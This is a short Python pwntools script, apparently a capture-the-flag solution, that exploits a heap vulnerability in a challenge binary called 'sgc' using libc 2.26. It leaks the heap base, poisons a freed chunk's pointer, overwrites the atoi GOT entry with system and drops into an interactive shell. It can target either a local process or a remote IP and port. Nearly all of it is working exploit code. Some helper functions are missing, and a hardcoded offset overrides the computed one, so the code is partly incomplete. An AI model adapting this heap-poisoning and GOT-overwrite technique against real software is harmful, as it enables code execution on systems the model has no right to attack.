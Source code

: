 ```python

def delete_user(idx):
	print p.recvuntil("Action: ")
	p.sendline("4")
	print p.recvuntil("index: ")
	p.sendline(str(idx))

def leak_mem():
	p.recvuntil("Group: ")
	leak = u64(p.recvline()[:-1].ljust(8, "\x00"))
        log.info("leak : 0x%x" % leak)
	return leak



target = "./sgc"
libc_name = "./libc-2.26.so"
binary = ELF(target)
libc = ELF(libc_name)

if len(sys.argv) == 1:
	p = process(target)
else:
	p = remote("35.198.176.224", 1337)

fake_chunk = p64(0) + p64(0x21)

add_user("aaa", "111", 0)
add_user("bbb", "222", 0)
add_user("ccc", "333", 0)
add_user("\x00", fake_chunk, 0)
delete_user(1)
raw_input()

for i in range(255):
	edit_group(0, "n", "111")
time.sleep(1)

display_user(0)
heap_base = leak_mem() - 0x1c0
log.info("heap base : 0x%x" % heap_base)
raw_input()
fake_chunk_addr = heap_base + 0x2e0
mal_fd = p64(fake_chunk_addr)
edit_group(0, "y", mal_fd)

edit_group(2, "n", "abcdef")

payload = "a"*8 + p64(binary.got['atoi']) * 2
edit_group(2, "n", payload)

display_user(3)
atoi_addr = leak_mem()
system_addr = atoi_addr + (libc.symbols['system'] - libc.symbols['atoi'])
system_addr = atoi_addr + (0x45390-0x36e80)
log.info("system addr : 0x%x" % system_addr)

sss = hex(system_addr).replace("0x","").decode("hex")[::-1]
edit_group(3,"y",sss)
add_user("aa","bb","sh")

p.interactive()
```